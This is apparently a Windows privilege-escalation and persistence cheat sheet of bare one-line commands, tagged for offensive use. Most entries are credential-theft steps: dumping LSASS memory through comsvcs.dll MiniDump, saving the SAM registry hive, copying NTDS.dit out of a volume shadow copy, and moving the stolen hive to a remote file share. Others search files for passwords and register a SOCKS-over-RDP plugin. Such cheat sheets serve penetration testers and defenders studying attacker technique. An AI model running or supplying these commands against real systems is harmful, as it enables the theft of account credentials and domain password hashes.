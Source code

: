 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Powershell - List running processes
```
tasklist /svc
```
## Powershell - Search for "password" in files
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Display LSASS process information
```
Get-Process lsass
```

## Create LSASS memory dump
```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

## reg.exe - Save a copy of a registry hive
```
reg.exe save hklm\sam C:\sam.save
```

## regsvr32 - Register DLL
```
regsvr32.exe SocksOverRDP-Plugin.dll
```

## Transfer file to a file share
```
move sam.save \\<ip>\NameofFileShare
```

## cmd.exe - Copy NTDS.dit from shadow copy
```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

## vssadmin - Create volume shadow copy
```
vssadmin CREATE SHADOW /For=C:
```
